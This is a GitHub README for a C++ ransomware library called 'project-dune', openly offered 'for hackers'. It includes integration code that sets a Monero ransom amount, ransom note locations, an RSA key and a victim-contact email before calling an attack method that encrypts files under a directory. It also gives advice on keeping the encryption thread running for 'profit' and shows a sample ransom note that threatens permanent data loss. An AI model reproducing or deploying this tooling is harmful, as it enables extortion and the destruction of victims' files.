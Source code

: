 # project-dune
An customizable ransomware for hackers. 
## Usage

Example integration
```cpp
#include <iostream>
#include <vector>
#include <string>
#include <chrono>
#include "inc/dune.hpp"

int main(int argc, char *argv[])
{
    std::vector<std::string> notes;
    notes.push_back("./ransom.txt");
    notes.push_back("/ransom.txt");
    std::string public_key = "-----BEGIN PUBLIC KEY-----\n"
                             "MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQC3LhafKJnVq/xa/1d40hcETsyG\n"
                             "CLSxlhXfJWERLPY14Di6EyKZj+e7+IpZF489pxnDEode2UaN/Mq0/hCy8epOrfx1\n"
                             "0BKGlxY72fPDt9MvThCs6DokeK4cIzcMEKQv4RNBF8q3winAM1SGnxLu7RWx2npF\n"
                             "ND8Xa8c7d8il4AjK5QIDAQAB\n"
                             "-----END PUBLIC KEY-----\n";
    std::vector<std::string> exempt_files = std::vector<std::string>();
    exempt_files.push_back("0ef71b11630f2ffb4e796e7923300d67a763eaca");
    exempt_files.push_back("c9831e93135c07e60e86d0cea63a878cb512764f");

    dune::Dune dune = dune::Dune(2.0, "XMR", "your address here", "You have been pwned!", notes, "tech@anon.gov", public_key, exempt_files);
    dune::Acknowledgement ack;
    ack.are_you_sure_you_want_to_do_this = true;
    ack.i_accept_the_risks_and_consequences_of_my_actions = true;
    ack.i_understand_it_is_illegel = true;
    dune.attack(ack, "./");
    printf("All done\n");
    return 0;
}
```

The Dune ransomware class contains two important methods. The attack method and the constructor. The constructor accepts several required arguments to tell the malware how to behave (Ex: what crypto address to demand). The most important parameter is the PEM formatted RSA key. The RSA public key must be valid, or behavior is not guaranteed. The class requires a string vector containing absolute or relative file paths to be supplied to create many ransom notes. More, the better. The class also takes an argument specifying the amount and type of cryptocurrency to be ransomed. It also accepts a message to include in the ransom file and can be left as an empty string. Also, there is an email parameter to have so that the victim can contact the ransomer.

## Notes
The attack method creates a thread that will encrypt all files in the background. Since this could take a while, you will need to create a while loop to wait until verify_done returns true. Remember to sleep between calls to it, or it will slow the encryption. You must do this to keep the thread alive, or encryption will likely result in corrupt files and no profit.

Example:
```cpp
dune.attack(ack, true);

while (!dune.verify_done()) {
    std::this_thread::sleep_for(std::chrono::milliseconds(5000));
}
```

This is an example Dune ransonware note file:
```
Message from hacker: You have been pwned!

You must pay in this type of cryptocurrency XMR.
The ransom amount is 2.000000 XMR.
The address to pay is: 

your address here

This address is specific to this attack. If you have multiple attacks pending paying another address will not help you regain your files. The full amount or more must be paid to the XMR address specified.
DO NOT MODIFY THIS, OR ALL YOUR FILES WILL BE LOST (It is the RSA encrypted key for decryption)

jdnXNse+wTWGPQAec/5oLR/albnGS5f6QiOxpvY15CaEJgB7RsYf7oV/y1BclATw5MtElCZmN+mQFs0KaYGr+/KF6xDzGgfB0bpCax9HzVyBl0uGpOIElaZgUI1R2KkNm80ggX7bSH6+c23BiGUTGTac2BCpvSDfe6KVVWoZkZ4=

Send this whole file to this email address AFTER you have paid the ransom: tech@anon.gov

If you contact this email before the ransom is paid in full it will likely be increased.


This is your victim id: 4a357c9d-3868-4b84-afb0-26661ac9f2e6.
```

Enjor the easy integration.
